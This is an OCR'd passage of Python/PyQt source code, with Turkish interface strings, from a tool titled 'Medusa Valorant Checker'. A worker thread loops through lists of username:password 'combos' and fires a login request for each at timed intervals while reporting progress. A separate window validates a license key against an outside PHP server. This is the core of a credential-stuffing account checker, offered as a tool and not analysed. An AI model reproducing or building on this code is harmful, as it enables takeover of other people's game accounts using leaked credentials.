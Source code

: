         if not pixmap.isNull():
            rounded_pixmap = get_rounded_pixmap(pixmap, 150)
            self.avatar_label.setPixmap(rounded_pixmap)
        else:
            self.avatar_label.setText('❌\nResim\nYüklenemedi')
            self.avatar_label.setAlignment(Qt.AlignCenter)
class WorkerThread(QThread):
    update_signal = pyqtSignal(str)
    progress_signal = pyqtSignal(int)
    finished_signal = pyqtSignal()
    login_request_signal = pyqtSignal(str, str)
    def __init__(self, combos):
        super().__init__()
        self.combos = combos
        self.running = True
    def run(self):
        total = len(self.combos)
        for i, (username, password) in enumerate(self.combos):
            if not self.running:
                break
            else:
                self.update_signal.emit(f'🔹 {i + 1}/{total} -> {username}:{password} deneniyor...')
                self.progress_signal.emit(int((i + 1) / total * 100))
                self.login_request_signal.emit(username, password)
                time.sleep(2)
        self.finished_signal.emit()
class KeyLoginWindow(QMainWindow):
    PHP_KEY_VALIDATION_URL = 'https://habnet.pw/key_kontrol.php'
    def __init__(self):
        super().__init__()
        self.setWindowTitle('Medusa Valorant Checker - Giriş')
        self.setGeometry(100, 100, 600, 800)
        self.setStyleSheet(self.get_modern_stylesheet())
        self.init_ui()
    def get_modern_stylesheet(self):